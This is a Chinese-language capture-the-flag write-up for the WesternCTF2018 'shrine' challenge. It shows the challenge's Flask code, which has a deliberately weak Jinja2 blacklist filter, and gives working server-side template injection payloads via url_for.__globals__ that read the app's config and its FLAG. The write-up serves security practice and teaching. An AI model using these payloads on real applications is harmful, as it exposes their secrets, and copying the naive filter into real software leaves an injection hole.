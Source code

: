 ```yaml
---
title: WesternCTF2018 shrine
date: 2023-11-14
categories:
  - CTF
  - Web
---
```


## 前置工作

打开靶机网页，知道是 Python 代码，太乱了，整理一下

```python
import flask
import os

app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/')
def shrine(shrine):
    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)

```

Flask，Jinja2 模板注入肯定了，这个 `@app.route('/shrine')` 和 `@app.route('/shrine/<path:shrine>')` 应该是一个道理，重点在于下面的 `safe_jinja()` 函数

## `safe_jinja()` 绕过

这个函数对于输入内容的处理仅仅是在前面添加两句话，假如我输入 `{{1+1}}`，他会把句子处理成 `{% set config=None%}{% set self=None%}{{1+1}}`，当然，这对 1+1=2 的运算没有影响，但重点是，我们该如何不调用到 `self` 和 `config` 变量才能获取到存在 app.config 中的 FLAG

这里就需要用到 `url_for.__globals__` 函数，传入 `{{url_for.__globals__}}`，出来一堆，找点有用的

```
'current_app': <Flask 'app'>
```

找到 Flask 对象了，那就更进一步 `{{url_for.__globals__['current_app']}}`，然后就能看到

```
<Flask 'app'>
```

对象拿到手了，那么就获取 `config`，`{{url_for.__globals__['current_app']['config']}}`

运行到这一步其实已经可以看到 Flag 了，但为了美观，还是输入完整一点 `{{url_for.__globals__['current_app']['config']['FLAG']}}`

最后得出的 Flag 为 `flag{b3392cd3-21df-4c7d-86a0-5a0213cef93a}`